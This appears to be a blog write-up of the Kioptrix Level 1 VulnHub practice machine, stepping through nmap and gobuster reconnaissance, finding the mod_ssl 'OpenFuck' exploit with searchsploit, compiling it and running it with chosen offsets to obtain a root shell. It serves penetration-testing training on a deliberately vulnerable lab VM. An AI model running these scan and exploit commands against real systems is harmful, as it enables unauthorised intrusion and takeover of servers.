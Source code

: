 ```yaml
---
layout: post
title: Kioptrix Level 1
---
```

[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/#)

## Find IP of box
Our IP: x.x.x.49

```nmap -T5 <LHOST>/24```

Kioptrix is running on: x.x.x.104  

## Init NMap Scan

```nmap -sC -sV -oA nmap x.x.x.104```

 - Default Scripts
 - Service Detection
 - Output all formats

![Initial NMap Scan](/images/KioptrixL1/Nmap1.JPG)

We have 6 ports open: 22 (SSH), 80 (HTTP), 111 (rpcbind), 139 (netbios-ssn samba), 443 (ssl/https), 1024 (status)

I'm going to start by looking at the HTTP port

## HTTP - Port 80
### Gobuster

```gobuster dir -u http://x.x.x.104 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml```

![Gobuster Results](/images/KioptrixL1/Gobuster1.JPG)

### Dirbuster
Ran gui Dirbuster in background for recursive search

Gave plenty more results but not much important info to be found

### Searchsploit

```searchsploit mod_ssl```

< 2.8.7 stands out as our version is 2.8.4

There are 3 results so a quick google of the name (OpenFuck) reveals the version we need is 47080.c (ExploitDB)

Reading through the exploit reveals we need to explain libssl-dev

```apt-get install libssl-dev```

It also explains how to compile

```gcc -o exploit 47080.c -lcrypto```

Now we need to find out how to use it properly, so run the script

```./exploit```

It presents us with:

``
: Usage: ./script target box [port] [-c N

  target - supported box eg: 0x00
  box - hostname or IP address
  port - port for ssl connection
  -c open N connections. (use range 40-50 if u dont know
``

and a long list of supported offsets to place instead of 'target'

Ours is likely to be either 0x6a or 0x6b so we'll try 0x6a first

```
./exploit 0x6a x.x.x.104 -c 40
```

Unsucessful

```./exploit 0x6b x.x.x.104 -c 40```

It Works! We are now root

Note: It seemingly freezes for a bit by not producing an output but if we type in a command such as ```id``` and we get an output which shows we have a shell.

Note 2: If the above command doesn't work (i.e reaches ```spawning shell ... Good Bye!``` ), try deleting the compiled script and recompile and it should work fine

### TTY shell

unnecessary step but would prove useful if we had any other steps to perform.

```/bin/bash -i```


